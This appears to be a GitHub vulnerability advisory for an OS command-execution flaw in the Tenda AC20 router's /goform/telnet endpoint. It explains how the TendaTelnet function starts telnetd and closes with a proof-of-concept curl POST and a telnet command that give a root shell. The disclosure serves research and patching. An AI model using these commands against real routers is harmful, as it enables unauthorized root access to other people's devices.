 # Tenda AC20 telnet TendaTelnet OS Command Injection

## Summary

A remote command execution vulnerability exists in the Tenda AC20 router (firmware V16.03.08.12), allowing attackers to activate the telnet service via a specific HTTP endpoint. The vulnerability resides in the `TendaTelnet` function, which directly executes system commands to start the telnet service without proper input sanitization, enabling attackers to gain interactive shell access to the router and execute arbitrary commands.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: https://www.tenda.com.cn/material/show/3264

*   **Component**: `/goform/telnet` (inferred from `websFormDefine("telnet", TendaTelnet);` )

*   **Vulnerability Type**: Command Execution via Service Activation (CWE-78)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability stems from the `TendaTelnet` function, which is bound to the `/goform/telnet` endpoint via `websFormDefine("telnet", TendaTelnet);`. This function is designed to control the telnet service of the router but lacks essential input sanitization for system commands. The function's execution flow directly triggers system commands to enable and start the telnet service, allowing attackers to exploit it via a crafted HTTP request.

Key operations in the `TendaTelnet` function are as follows:



1.  **Parameter Retrieval**: The function calls `GetValue("lan.ip", v17)` to obtain the router's LAN IP address, stored in the `v17` buffer.

2.  **Console Activation**: It enables the system console via `console_control(1)` and sets the `console_switch` configuration to `enable` using `SetValue`, followed by committing the configuration with `CommitCfm()`.

3.  **Telnet Service Management**:

*   It first terminates any existing telnet service instances with `system("killall -9 telnetd")`.

*   It then starts a new telnet service bound to the retrieved LAN IP via `doSystemCmd("telnetd -b %s &", (const char *)v17)`, where `%s` is replaced with the LAN IP from `v17`.

1.  **Response**: The function returns a success message "load telnetd success." via `websWrite` with a 200 HTTP status code.

Critical issues in this flow:

*   Activation of telnetd allows attackers to connect to the router's telnet service and execute arbitrary system commands with root privileges (typical for router environments).

## PoC: Exploit Steps

### 1. Activate Telnet Service

Send a POST request to the `/goform/telnet` endpoint to trigger the `TendaTelnet` function:


```
curl -i -X POST http://192.168.xxx.xxx/goform/telnet --http0.9
```
then use ctrl+c to quit，the you can start the telnet service of this router:
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


### 2. Connect via Telnet

```
telnet 192.168.xxx.xxx 80
```

Successful connection will provide an interactive shell:

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
